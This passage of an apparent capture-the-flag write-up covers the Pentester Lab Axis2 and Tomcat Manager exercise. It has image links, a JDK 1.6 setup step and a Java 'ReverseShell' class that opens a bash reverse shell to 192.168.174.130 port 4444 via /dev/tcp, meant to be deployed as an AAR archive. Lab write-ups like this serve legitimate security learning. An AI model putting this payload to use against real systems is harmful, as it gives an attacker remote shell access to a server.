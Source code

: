 ![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212221829.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212222015.png)

Now we should be able to use JDK version 1.6 in directory `/etc/jdk1.6.0_01/bin/`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212222041.png)

After installing and extracting JDK version 1.6, we can now deploy our own AAR archive file!

- Create a directory for storing our files:

![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212213438.png)

- Copy and paste the following Java code to a file called `ReverseShell.java`:

```java
public class ReverseShell {
    // generated from https://www.revshells.com/
    public static void revshell(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.174.130/4444 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```